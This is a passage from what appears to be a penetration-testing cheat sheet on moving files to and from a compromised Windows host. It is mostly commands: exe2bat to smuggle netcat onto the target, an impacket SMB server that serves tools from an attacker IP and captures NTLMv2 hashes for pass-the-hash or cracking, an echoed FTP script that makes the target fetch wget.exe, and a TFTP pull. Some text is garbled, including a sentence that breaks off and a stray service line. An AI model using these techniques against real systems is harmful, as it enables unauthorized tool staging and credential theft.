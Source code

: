 ```
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe

# Transfering files Windows to linux

## smb-client

If you only have a hash of a user which is


```
/etc/init.d/pure-ftpd

```

### SMB Server setup

```
# Set up a SMB server using smbserver.py from impacket
smbserver.py SHARE_NAME path/to/share

# From target Windows:
net view \\KALI_IP
(Should display the SHARE_NAME)

dir \\KALI_IP\SHARE_NAME
copy \\KALI_IP\SHARE_NAME\file.exe .

# Looking at smbserver logs you also grab the NTLMv2 hashes of your current Windows user
# can be usefull to PTH, or crack passwords

# Since Windows 10, you can't do anonymous smb server anymore
sudo python smbserver.py SDFR /BloodHound/Ingestors -smb2support -username "peon" -password "peon"
net use Z: \\192.168.30.130\SDFR /user:peon peon
net use Z: /delete /y

impacket smbserver
net use z: \\attackerip\sharename

```

### Build a FTP and ==transf==er file

```
# Set up a ftp downloading script on the target machine:
echo open IP 21 > ftp.txt
echo USER acknak>> ftp.txt
echo jLQRZy4gyLhmMqz2whTw>> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET wget.exe >> ftp.txt
echo bye >> ftp.txt

# Download the prepared file:
ftp -v -n -s:ftp.txt

# Start tftp server on Kali
aftpd start

# Transfer files from Kali to Windows (from windows terminal)
tftp -I IPADDRESS GET nameoffile.exe
```